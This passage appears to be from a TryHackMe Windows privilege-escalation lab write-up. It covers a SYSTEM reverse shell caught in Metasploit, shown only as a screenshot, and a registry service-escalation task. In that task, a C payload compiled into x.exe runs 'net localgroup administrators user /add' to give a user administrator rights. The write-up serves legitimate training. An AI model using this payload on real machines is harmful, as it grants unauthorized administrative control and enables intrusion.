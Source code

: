 In the Metasploit listener previously launched, i receive a shell with system rights :

![Reverse shell](/images/thm/windowsprivescarena/windowsprivescarena_7.png)
_Reverse shell_

No Answer.

## TASK 5 : Service Escalation - Registry
### Click 'Completed' once you have successfully elevated the machine

![Permissions](/images/thm/windowsprivescarena/windowsprivescarena_8.png)
_Permissions_

Compiled the c code with the changes to the system function into x.exe :

```console
[...]
//add the payload here
int Run() 
{ 
    //system("whoami > c:\\windows\\temp\\service.txt");
    system("cmd.exe /k net localgroup administrators user /add");
    return 0; 
} 
[...]
```
{: .nolineno }
